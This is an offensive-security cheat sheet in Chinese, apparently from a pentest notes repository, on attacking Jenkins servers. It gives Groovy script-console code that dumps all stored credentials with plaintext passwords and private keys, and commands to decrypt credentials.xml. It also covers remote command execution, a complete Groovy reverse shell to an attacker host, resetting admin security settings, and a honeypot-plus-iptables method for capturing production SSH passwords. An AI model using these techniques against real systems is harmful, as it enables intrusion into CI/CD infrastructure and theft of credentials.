

# Jenkins Attack

## 0x00 查看版本

http://localhost:8080/login


## 0x01 关键信息

### 文件

JENKINS_HOME/config.xml  整体配置信息

JENKINS_HOME/jobs/{xxx}/config.xml  具体管道下的配置信息，设置的凭据也可以在这下面找到


### 环境变量

http://localhost:8080/env-vars.html


```
BRANCH_NAME
For a multibranch project, this will be set to the name of the branch being built, for example in case you wish to deploy to production from master but not from feature branches; if corresponding to some kind of change request, the name is generally arbitrary (refer to CHANGE_ID and CHANGE_TARGET).
BRANCH_IS_PRIMARY
For a multibranch project, if the SCM source reports that the branch being built is a primary branch, this will be set to "true"; else unset. Some SCM sources may report more than one branch as a primary branch while others may not supply this information.
CHANGE_ID
For a multibranch project corresponding to some kind of change request, this will be set to the change ID, such as a pull request number, if supported; else unset.
CHANGE_URL
For a multibranch project corresponding to some kind of change request, this will be set to the change URL, if supported; else unset.
CHANGE_TITLE
For a multibranch project corresponding to some kind of change request, this will be set to the title of the change, if supported; else unset.
CHANGE_AUTHOR
For a multibranch project corresponding to some kind of change request, this will be set to the username of the author of the proposed change, if supported; else unset.
CHANGE_AUTHOR_DISPLAY_NAME
For a multibranch project corresponding to some kind of change request, this will be set to the human name of the author, if supported; else unset.
CHANGE_AUTHOR_EMAIL
For a multibranch project corresponding to some kind of change request, this will be set to the email address of the author, if supported; else unset.
CHANGE_TARGET
For a multibranch project corresponding to some kind of change request, this will be set to the target or base branch to which the change could be merged, if supported; else unset.
CHANGE_BRANCH
For a multibranch project corresponding to some kind of change request, this will be set to the name of the actual head on the source control system which may or may not be different from BRANCH_NAME. For example in GitHub or Bitbucket this would have the name of the origin branch whereas BRANCH_NAME would be something like PR-24.
CHANGE_FORK
For a multibranch project corresponding to some kind of change request, this will be set to the name of the forked repo if the change originates from one; else unset.
TAG_NAME
For a multibranch project corresponding to some kind of tag, this will be set to the name of the tag being built, if supported; else unset.
TAG_TIMESTAMP
For a multibranch project corresponding to some kind of tag, this will be set to a timestamp of the tag in milliseconds since Unix epoch, if supported; else unset.
TAG_UNIXTIME
For a multibranch project corresponding to some kind of tag, this will be set to a timestamp of the tag in seconds since Unix epoch, if supported; else unset.
TAG_DATE
For a multibranch project corresponding to some kind of tag, this will be set to a timestamp in the format as defined by java.util.Date#toString() (e.g., Wed Jan 1 00:00:00 UTC 2020), if supported; else unset.
JOB_DISPLAY_URL
URL that will redirect to a Job in a preferred user interface
RUN_DISPLAY_URL
URL that will redirect to a Build in a preferred user interface
RUN_ARTIFACTS_DISPLAY_URL
URL that will redirect to Artifacts of a Build in a preferred user interface
RUN_CHANGES_DISPLAY_URL
URL that will redirect to Changelog of a Build in a preferred user interface
RUN_TESTS_DISPLAY_URL
URL that will redirect to Test Results of a Build in a preferred user interface
CI
Statically set to the string "true" to indicate a "continuous integration" execution environment.
BUILD_NUMBER
The current build number, such as "153".
BUILD_ID
The current build ID, identical to BUILD_NUMBER for builds created in 1.597+, but a YYYY-MM-DD_hh-mm-ss timestamp for older builds.
BUILD_DISPLAY_NAME
The display name of the current build, which is something like "#153" by default.
JOB_NAME
Name of the project of this build, such as "foo" or "foo/bar".
JOB_BASE_NAME
Short Name of the project of this build stripping off folder paths, such as "foo" for "bar/foo".
BUILD_TAG
String of "jenkins-${JOB_NAME}-${BUILD_NUMBER}". All forward slashes ("/") in the JOB_NAME are replaced with dashes ("-"). Convenient to put into a resource file, a jar file, etc for easier identification.
EXECUTOR_NUMBER
The unique number that identifies the current executor (among executors of the same machine) that’s carrying out this build. This is the number you see in the "build executor status", except that the number starts from 0, not 1.
NODE_NAME
Name of the agent if the build is on an agent, or "built-in" if run on the built-in node (or "master" until Jenkins 2.306).
NODE_LABELS
Whitespace-separated list of labels that the node is assigned.
WORKSPACE
The absolute path of the directory assigned to the build as a workspace.
WORKSPACE_TMP
A temporary directory near the workspace that will not be browsable and will not interfere with SCM checkouts. May not initially exist, so be sure to create the directory as needed (e.g., mkdir -p on Linux). Not defined when the regular workspace is a drive root.
JENKINS_HOME
The absolute path of the directory assigned on the controller file system for Jenkins to store data.
JENKINS_URL
Full URL of Jenkins, like http://server:port/jenkins/ (note: only available if Jenkins URL set in system configuration).
BUILD_URL
Full URL of this build, like http://server:port/jenkins/job/foo/15/ (Jenkins URL must be set).
JOB_URL
Full URL of this job, like http://server:port/jenkins/job/foo/ (Jenkins URL must be set).
GIT_COMMIT
The commit hash being checked out.
GIT_PREVIOUS_COMMIT
The hash of the commit last built on this branch, if any.
GIT_PREVIOUS_SUCCESSFUL_COMMIT
The hash of the commit last successfully built on this branch, if any.
GIT_BRANCH
The remote branch name, if any.
GIT_LOCAL_BRANCH
The local branch name being checked out, if applicable.
GIT_CHECKOUT_DIR
The directory that the repository will be checked out to. This contains the value set in Checkout to a sub-directory, if used.
GIT_URL
The remote URL. If there are multiple, will be GIT_URL_1, GIT_URL_2, etc.
GIT_COMMITTER_NAME
The configured Git committer name, if any, that will be used for FUTURE commits from the current workspace. It is read from the Global Config user.name Value field of the Jenkins Configure System page.
GIT_AUTHOR_NAME
The configured Git author name, if any, that will be used for FUTURE commits from the current workspace. It is read from the Global Config user.name Value field of the Jenkins Configure System page.
GIT_COMMITTER_EMAIL
The configured Git committer email, if any, that will be used for FUTURE commits from the current workspace. It is read from the Global Config user.email Value field of the Jenkins Configure System page.
GIT_AUTHOR_EMAIL
The configured Git author email, if any, that will be used for FUTURE commits from the current workspace. It is read from the Global Config user.email Value field of the Jenkins Configure System page.
```


## 0x02 用户相关

### 修改已有用户密码

位于 `$JENKINS_HOME/users/` 目录下


`users.xml` 文件获取用户列表以及对应的目录


`$JENKINS_HOME/users/alice_13254336614910464357/config.xml`  ，读取用户目录下的 `config.xml` 文件

通常关注这三个信息

- 用户密码，`<passwordHash>` 字段使用 JBCript 加密，对应源码中的加密类 `HudsonPrivateSecurityRealm`，直接用 CyberChef 加密


- 用户Token，使用sha256哈希编码
- 用户种子


#### 生效密码

需要有 `Administer permission` 权限的用户登陆，然后通过 http://localhost:8080/reload 点击 `Retry using POST` 重载配置


**其他！**

http://localhost:8080/exit ，点击 `Retry using POST`  关闭jenkins服务

http://localhost:8080/restrat 重启 jenkins 服务器

### 默认密码

位于 `$JENKINS_HOME/secrets/initialAdminPassword` ，如果不存在代表已经被修改

#### 删除后重新生成

删除如下几个 tag

```xml
<useSecurity>true</useSecurity>
<authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
        <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
</authorizationStrategy>
<securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
        <disableSignup>true</disableSignup>
        <enableCaptcha>false</enableCaptcha>
</securityRealm>
```

## 0x03 凭证

### 凭证文件

```
$JENKINS_HOME/credentials.xml 或 $JENKINS_HOME/config.xml 凭证文件
$JENKINS_HOME/secrets/master.key  密钥
$JENKINS_HOME/secrets/hudson.util.Secret   hash
JENKINS_HOME/jobs/{pp path}/config.xml 具体管道的配置文件
```

### 终端获取

```
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
    com.cloudbees.plugins.credentials.common.StandardUsernameCredentials.class,
    Jenkins.instance,
    null,
    null
);
for (c in creds) {
     println( ( c.properties.privateKeySource ? "ID: " + c.id + ", UserName: " + c.username + ", Private Key: " + c.getPrivateKey() : ""))
}
for (c in creds) {
     println( ( c.properties.password ? "ID: " + c.id + ", UserName: " + c.username + ", Password: " + c.password : ""))
}
```



### 终端解密

解密工具  https://github.com/hoto/jenkins-credentials-decryptor

```
curl -L "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_Linux_x86_64" -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor -m $JENKINS_HOME/secrets/master.key -s $JENKINS_HOME/secrets/hudson.util.Secret -c $JENKINS_HOME/credentials.xml -o json
```


### Script 解密

```
println(hudson.util.Secret.decrypt("{AQ...}"))
println(hudson.util.Secret.fromString("{AQ...}").getPlainText())
```


## 0x04 Script Groovy 执行 (Node 利用)

http://localhost:8080/script

就是 Groovy 执行的语法，提供几个常用

### 普通执行

```
println "cat /etc/passwd".execute().text

println new ProcessBuilder('sh','-c','ls').redirectErrorStream(true).start().text
```

```
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());

def proc = ['bash', '-c', '''whoami'''].execute();
```


### 反弹 shell

```
String host = "ip";
int port = 1234;
String cmd = "/bin/bash";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
while (pi.available() > 0) so.write(pi.read());
while (pe.available() > 0) so.write(pe.read());
while (si.available() > 0) po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
} catch (Exception e) {
}
}
p.destroy();
s.close();
```

### 文件

```
读
new File('/etc/passwd').text

写
new File('/tmp/file.txt').withWriter('UTF-8') { writer ->
    try {
        writer << 'hello world\n'
    } finally {
        writer.close()
    }
}
```

其他一些语法参考  https://github.com/samrocketman/jenkins-script-console-scripts

## 0x05 新建 Node 获取 ssh 密码 (prod 利用)

使用 [cowrie](https://github.com/cowrie/cowrie) 蜜罐或任意 ssh 蜜罐

```
docker run -p 2222:2222 cowrie/cowrie
```

新建一个节点复制目标节点


选择需要获取的凭证节点及蜜罐监听 ip


监听得到 Prod 的 ssh 密码


特殊情况需要 22 端口的设置下转发

```
#设置端口转发
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -P FORWARD ACCEPT
iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222

#蜜罐使用完之后将转发的规则删除，要删干净。
iptables -L INPUT --line-numbers
iptables -D INPUT 7
iptables -t nat -L -n --line-numbers
iptables -t nat -D PREROUTING 2
```

## 0x06 jenkins-cli

http://localhost:8080/jnlpJars/jenkins-cli.jar

可以直接通过 jenkins-cli 来操作

```
java -jar jenkins-cli.jar -s http://127.0.0.1:8081/ -auth demo:demo reload-con
figuration
```

## 0x07 CICD 攻击

见 cicd-goat WP。


**参考**

> https://github.com/gquere/pwn_jenkins
